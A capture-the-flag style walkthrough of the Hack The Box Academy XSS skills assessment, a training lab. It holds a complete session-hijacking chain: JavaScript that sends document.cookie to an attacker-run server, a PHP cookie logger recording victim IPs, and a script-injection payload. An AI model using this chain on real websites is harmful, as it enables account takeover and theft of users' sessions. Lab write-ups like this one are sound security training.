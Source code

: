 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Cross Site Scripting Skills Assessment"
description: "Develop your Cross-Site Scripting (XSS) expertise with the Hack The Box - Academy - Cross Site Scripting Skills Assessment. Learn how to identify and exploit XSS vulnerabilities."
date:   2024-09-29 18:45
image:  /images/htb/cross-site-scripting/cross-site-scripting-logo.png
tags:   [xss,cbbh]
categories: [htbacademy]
---
```


><b>Overview:</b>
<br/><br/>
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).<br/><br/>
Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:<br/><br/>
Apply the skills you learned in this module to achieve the following:<br/><br/>
 1 Identify a user-input field that is vulnerable to an XSS vulnerability.<br/>
 2 Find a working XSS payload that executes JavaScript code on the target's browser.<br/>
 3 Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag
<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/103/section/1011">Cross-Site Scripting (XSS)</a><br/>
<a href="https://jacozwarts.github.io/images/htb/cross-site-scripting/Cross_Site_Scripting_Xss_Module_Cheat_Sheet.pdf">Cross-Site Scripting (XSS) - Cheat Sheet</a>
<br/>

#### Installing XSStrike
<a href="https://github.com/s0md3v/XSStrike.git">Clone the XSStrike Repository from GitHub</a>
```
git clone https://github.com/s0md3v/XSStrike.git
```
```
cd XSStrike
pip install -r requirements.txt
```
```
python xsstrike.py -u "http://{TARGET}?id=1"
```


## Q1:  What is the value of the 'flag' cookie?

In this guide, we'll walk through how to extract the 'flag' cookie during the XSS skills assessment using the Hack The Box provided VM. Let's dive in!

#### 1. Set Up the Environment
Start by creating a temporary directory for our script and files. Run the following command to create the directory:
```
mkdir /tmp/tempserver
```
#### 2. Create the JavaScript to Capture the Cookie
Next, we'll write a script (script.js) that will extract the session cookie and send it to a web server we’ll set up shortly. This script will be injected into the vulnerable input fields to capture the cookie.
```
document.location='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
new Image().src='http://{HTB_VM_IPADDRESS}:{PORT}/index.php?c='+document.cookie;
```
#### 3. Set Up the PHP Server
Now, let's create a PHP file that will handle the incoming requests. This php script will read the c query parameter, which will contain the cookie, and store it in a file called cookies.txt. Here’s the php script:
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Use the below command to start your php server:
```
sudo php -S 0.0.0.0:{PORT}
```
You can use any available port. In my case, port 80 was already in use on the Hack The Box Virtual Machine, so I chose an alternate port.
#### 4. Inject the Payload
The next step is to craft a payload to inject into the form. We'll use the following payload for both the comment and website input fields:
```
"><script src=http://{HTB_VM_IPADDRESS}:{PORT}/script.js></script>
```
Replace {HTB_VM_IPADDRESS}:{PORT} with your VM's IP and Port you used when  address.
#### Capture the Flag
Submit the form with the injected payload. Afterward, check the cookies.txt file on your server to retrieve the session cookie. and flag.
<hr/>